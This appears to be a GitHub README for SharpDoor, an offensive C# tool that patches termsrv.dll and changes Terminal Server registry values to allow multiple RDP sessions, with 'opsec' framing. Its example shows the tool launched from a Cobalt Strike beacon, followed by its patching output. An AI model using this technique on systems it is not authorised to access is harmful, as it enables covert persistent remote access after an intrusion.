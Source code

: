 # SharpDoor
SharpDoor is alternative RDPWrap written in C# to allowed multiple RDP (Remote Desktop) sessions by patching termsrv.dll file, for opsec considerations SharpDoor still using cmd.exe to run sc services to impersonating as trustedinstaller in the future will be avoiding cmd.exe usage, currently only support for Windows 10.

Author - Rahmat Nurfauzi ([@infosecn1nja](https://twitter.com/infosecn1nja))

## Example

```
beacon> execute-assembly /root/Toolkits/SharpBinaries/SharpDoor.exe
[*] Tasked beacon to run .NET program: SharpDoor.exe
[+] host called home, sent: 115243 bytes
[+] received output:
   _____ _                      _____
  / ____| |                    |  __ \
 | (___ | |__   __ _ _ __ _ __ | |  | | ___   ___  _ __
  \___ \| '_ \ / _` | '__| '_ \| |  | |/ _ \ / _ \| '__|
  ____) | | | | (_| | |  | |_) | |__| | (_) | (_) | |
 |_____/|_| |_|\__,_|_|  | .__/|_____/ \___/ \___/|_|
                         | |
  v1.0.0                 |_|

Allow Multiple RDP (Remote Desktop) Sessions By Patching termsrv.dll File

[*] Termsrv.dll Version : 10.0.17763.1
[*] Stop termservice

[+] received output:
[*] Backup termsrv.dll to C:\Users\Public\termsrv.dll

[*] Attempting to patch termsrv.dll

Original File Hash : 24ff1f89f2ec3f5561c34810c8328726
Patched File Hash : 4cec28b4c00002245dffc8346be0cc11

[*] C:\Users\Public\termsrv.patch.dll was patched successfully

[*] Setting Registry Terminal Server\fSingleSessionPerUser to 0
[*] Setting Registry Terminal Server\TSAppAllowList\fDisabledAllowList to 1
[*] Start termservice
[*] Done
```
